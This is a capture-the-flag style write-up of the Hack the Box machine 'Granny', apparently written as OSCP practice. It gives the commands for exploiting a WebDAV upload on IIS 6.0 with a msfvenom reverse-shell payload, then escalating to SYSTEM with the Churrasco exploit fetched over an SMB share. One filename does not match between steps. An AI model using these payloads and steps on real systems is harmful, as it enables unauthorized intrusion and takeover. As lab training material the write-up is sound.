 ```yaml
---
title: Hack the Box - Granny
date: 2022-08-16 21:40:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Granny](/assets/HackTheBox/Granny/Granny.png)

# Granny Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.15|Granny|Windows|

## Path to Exploitation

To compromise this machine, we initially leverage a mis-configured web server that allows uploading malicious files. We upload a reverse shell payload to get our initial foothold. To elevate our privileges, we'll take advantage of our user's privileges on the machine, specifically, seImpersonatePrivilege.

# Granny Enumeration

## Full Port Scan

```bash
nmap 10.10.10.15 -p- -oA Granny/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.15 -p 80 -sC -sV -oA Granny/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 6.0|

# Website

![Site Landing Page](/assets/HackTheBox/Granny/site-page.png "Site Landing Page")

## Nikto Scan

```shell
$ nikto -h http://10.10.10.15
```

Results:
```cmd
---[SNIP]---
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                   + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.                                                  
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (UNLOCK PROPFIND PROPPATCH COPY MKCOL SEARCH LOCK listed as allowed)
---[SNIP]---
```

We see the PUT method is allowed and that WebDAV is enabled. We can use davtest to check if we can upload files to the site.

## DavTest

```shell
$ davtest -u http://10.10.10.15
```

Results:
```cmd
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.php
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.cfm
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jhtml
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.pl
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jsp
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
```

We see that we can upload/execute html and txt files.

## Shell on Host

We can use this information to create our shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.html
```

We can then use Cadaver to upload the payload
```shell
$ cadaver http://10.10.10.15
```

But before executing, we need to trick the server into executing our .aspx payload. We need to move our .html file to a .aspx file on the server.

![Cadaver Tool](/assets/HackTheBox/Granny/cadaver.png "Using Cadaver")

After browsing to our payload file, we see we have caught a reverse shell as the network service account

![Initial Foothold](/assets/HackTheBox/Granny/initial-foothold.png "Initial Foothold")

# Privilege Escalation

Once on the machine we enumerate our user's privileges

```shell
C:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Granny/user-privs.png "User Privileges")

We see the seImpersonatePrivilege is enabled. We need to check the operating system version to determine which exploit we can use. 

```shell
C:\> systeminfo
```

![System Info](/assets/HackTheBox/Granny/sys-info.png "System Info")

We see the OS version is Microsoft Server 2003, we can
use the Churrsaco exploit located [here](https://github.com/Re4son/Churrasco)

## Getting SYSTEM

Setup and SMB Server on our Kali machine 
```shell
$ sudo impacket-smbserver share .
```

Upload the file using the SMB server
```shell
C:\> copy \\10.10.14.10\share\churrasco.exe
```

Test the exploit:
```shell
C:\> churrasco.exe -d "whoami"
```
![whoami as SYSTEM](/assets/HackTheBox/Granny/system-whoami.png "whoami as SYSTEM")

We see our command executed as SYSTEM

We can now use the exploit to launch a reverse shell payload

Create the payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the file to the machine:

```shell
C:\> copy \\10.10.14.10\share\exil.exe
```

Execute the payload:

```shell
C:\> churrasco.exe -d "C:\temp\evil.exe"
```

![Exploit](/assets/HackTheBox/Granny/exploit.png "Launch the Exploit")

Checking our listener we see we have a shell running as SYSTEM

![Getting SYSTEM](/assets/HackTheBox/Granny/priv-esc.png "Getting SYSTEM")